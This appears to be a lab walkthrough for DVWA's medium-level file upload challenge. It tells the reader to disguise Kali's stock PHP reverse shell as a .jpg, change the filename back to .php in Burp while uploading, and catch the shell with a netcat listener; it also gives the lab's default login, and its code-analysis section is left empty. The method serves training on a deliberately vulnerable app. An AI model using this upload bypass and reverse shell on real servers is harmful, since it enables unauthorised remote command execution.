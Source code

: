 # File Upload - Medium

---

## Attack Steps

1. Open Burp Suite

    - Start a **temporary project**

2. Navigate to the proxy tab
    - Shortcut `CTRL + SHIFT + P`

3. Ensure the intercept is OFF 
    - Open the chromium browser

4. Navigate to DVWA and set difficulty to medium 

    - http://<ip address>/dvwa
    - Login
    ```bash 
    admin
    password
    ```
    - Navigate to DVWA Security on the left menu 
    - Set security level to medium

5. Navigate to the target webpage 
    - http://<ip address>/dvwa/vulnerabilites/upload

6. Make a copy of `php_reverse_shell.php` and save as a jpg file:

    - `CTRL + ATL + T` to open a terminal 

    ```bash 
    sudo cp /usr/share/webshells/php/php_reverse_shell.php php_reverse_shell.jpg
    ```

7. Prepare for upload:
    
    - Return to target page
    - Browse for `php_reverse_shell.jpg`
    - Select file 
    - DO NOT UPLOAD 

8. Turn intercept on 

    - On Burp Suite turn the intercept on to catch request

9. Upload file:

    - Request will be caught by Burp

10. Edit request in Burp Proxy: 
    
    - Scroll down to filename
    - Change from
    ```bash 
    filename="php_reverse_shell.jpg"
    ```
    - to:
    ```bash 
    filename="php_reverse_shell.php"
    ```
    
11. Forward the request

    - Turn intercept off

12. On the kali terminal start a listener 

    ```bash 
    nc -lvnp 1234 # If you changed the port number in the webshell file then change it here 
    # l - listener mode
    # v - verbose output 
    # n - skip DNS resolution (faster) 
    # p <port number> - Listen on port number assigned # Change to your port number
    ```

13. Navigate to the uploaded webshell 

    - The uploaded file was saved to http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php

    - Alternatively run `curl -s http://<ip address>/dvwa/hackable/upload/php-reverse-shell.php` in another terminal 

14. On the netcat listener look a connection
    
    - The should be output similar to the following 
    ```bash 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    sh: no job control in this shell 
    sh-3.2$ 
    ```

    - We can now run commands on the DVWA machine

## Vulnerable Code Analysis


### File 
`/var/www/dvwa/vulnerabilities/upload/source/medium`

#### Key Vulnerability Points:

```php 

```

### Explanation
